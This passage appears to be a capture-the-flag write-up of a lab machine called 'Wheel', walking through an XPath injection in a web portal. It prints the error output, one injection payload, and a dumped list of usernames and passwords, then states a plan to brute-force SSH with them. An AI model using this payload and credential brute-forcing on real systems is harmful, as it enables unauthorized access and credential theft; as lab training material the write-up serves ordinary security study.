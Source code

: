 Well all i see that it includes what we search for in the url
![image](https://user-images.githubusercontent.com/113513376/214061558-fb53ec32-3093-4800-b782-0ec7552228c0.png)

I'll try tampering the url to see what happens
 
It reproduces an error that no `bike'` entity was found 
![image](https://user-images.githubusercontent.com/113513376/214061875-47e16631-6658-4f02-bb62-58fbd291c8d3.png)

```
XML Error; No bike' entity found
Warning: SimpleXMLElement::xpath(): Invalid expression in /var/www/html/portal.php on line 68
```

Well from this it looks like we're dealing with an X-PATH Injection cause from the error message i can see `xpath()`

Trying out payloads from https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XPATH%20Injection/README.md

After trying the payloads from the link above 

This doesn't throw an error

```
)]/user | a[contains(a,'
```
![image](https://user-images.githubusercontent.com/113513376/214065092-b7272930-5425-450f-982f-7b7c05493f6a.png)

So instead of us trying to dump the users table which doesn't exist i'll try assume there's a password table which i'll then dump

And it works
![image](https://user-images.githubusercontent.com/113513376/214065500-90e94b7f-4df9-4d4b-b748-c806e86fd22c.png)

Now i'll save those password list in a file then brute force ssh with the users 

And to get the username is as easy as searching for a valid service
![image](https://user-images.githubusercontent.com/113513376/214065782-83438b06-9848-4f85-bd81-9d85acc037d8.png)
![image](https://user-images.githubusercontent.com/113513376/214066230-bcd2fcca-9597-4f79-bd8d-bd9e8afd842d.png)

```
┌──(mark__haxor)-[~/_/B2B/Pg/Practice/Wheel]
└─$ nano users    
                                                                                                                                                                                                                   
┌──(mark__haxor)-[~/_/B2B/Pg/Practice/Wheel]
└─$ nano passwords
                                                                                                                                                                                                                   
┌──(mark__haxor)-[~/_/B2B/Pg/Practice/Wheel]
└─$ cat users;echo; cat passwords
bob
alice
john
dan
alex
selene

Iamrockinginmyroom1212
iamarabbitholeand7875
johnloveseverontr8932
lokieismyfav!@#12
alreadydead$%^234
lasagama90809!@
```
